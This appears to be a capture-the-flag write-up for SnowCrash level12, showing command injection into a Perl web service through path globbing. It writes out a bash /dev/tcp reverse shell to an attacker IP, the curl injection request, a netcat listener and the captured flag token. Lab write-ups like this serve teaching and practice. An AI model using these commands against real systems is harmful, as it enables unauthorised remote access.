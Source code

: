 - In `/home/user/level12` we find the Perl script `level12.pl` owned by `flag12` which shows a service running on localhost port 4646 that accepts an x and y parameter. Part of the code block shows that the x parameter contents are all turned into uppercase and if there is any whitespace or multiple words, only the first word is kept - everything after the space is stripped. The final string is passed into a string literal and executed.

```
<snip>
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
<snip>
```

- As the x parameter is passed into an egrep command and surrounded by double quotes, we should be able to carry out command injection by passing a payload into the x parameter. However, because the string we pass in is stripped of all words except the first one it will not be execute a payload such as a reverse shell script. Nor can we directly use the `getflag` payload because the output of the command will not be printed out to the screen. Therefore we can try to prepare a script with a reverse shell payload, and pass the script path as the payload to execute it.

- First start a listener on our attack machine
```
┌──(kali㉿kali)-[~/Desktop/SnowCrash]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
```

- Then on the target machine we need to prepare a script to execute a reverse shell. The script contents will be the payload `/bin/bash -c '/bin/sh -i >& /dev/tcp/<attackerIp>/4444 0>&1'` .  

- NOTE - The tricky thing here is that the Perl script will capitalize the string we pass into the x parameter so  if we create a script in /tmp/script it will become /TMP/SCRIPT. This wouldn't be a problem if we had permission to create a new folder in the root `/` of the drive but we are not permitted to. Therefore we will use a technique called globbing when we craft the payload for the x parameter.
-
```
level12@SnowCrash:/$ ls
bin   cdrom  etc   initrd.img  media  opt   rofs  run   selinux  sys  usr  vmlinuz
boot  dev    home  lib         mnt    proc  root  sbin  srv      tmp  var
level12@SnowCrash:/$ mkdir /TMP
mkdir: cannot create directory `/TMP': Permission denied
```

- First create a script in /tmp called `SCRIPT` and paste the reverse shell payload inside of it. Set the permissions to executable.
```
level12@SnowCrash:/$ cd /tmp
level12@SnowCrash:/tmp$ vim SCRIPT
level12@SnowCrash:/tmp$ cat SCRIPT
/bin/bash -c '/bin/sh -i >& /dev/tcp/10.13.200.129/4444 0>&1'
level12@SnowCrash:/tmp$ chmod +x SCRIPT
level12@SnowCrash:/tmp$ ls -d /tmp/SCRIPT
/tmp/SCRIPT
```

- We see the full path to the script is /tmp/SCRIPT which will become /TMP/SCRIPT once the script runs. However, thanks to globbing which uses `*` wildcard to match and expand any string in shell. So if we run `/*/SCRIPT` it will expand all directories at root level, no matter what they are called, and searches each directory for `SCRIPT`. We execute the curl command below to run the `SCRIPT` we prepared.

```
level12@SnowCrash:/tmp$ curl 'localhost:4646/?x="$(/*/SCRIPT)"'
```

- The script inside `/tmp/SCRIPT` is executed and a reverse shell is obtained on the attack machine. Running `getflag` obtains the token

```
┌──(kali㉿kali)-[~/Desktop/SnowCrash]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
connect to [10.13.200.129] from (UNKNOWN) [10.13.200.131] 58208
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flag12
$ getflag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

- Use the token to authenticate to `level13`

```
level12@SnowCrash:/tmp$ su level13
Password: 
level13@SnowCrash:~$ 
```
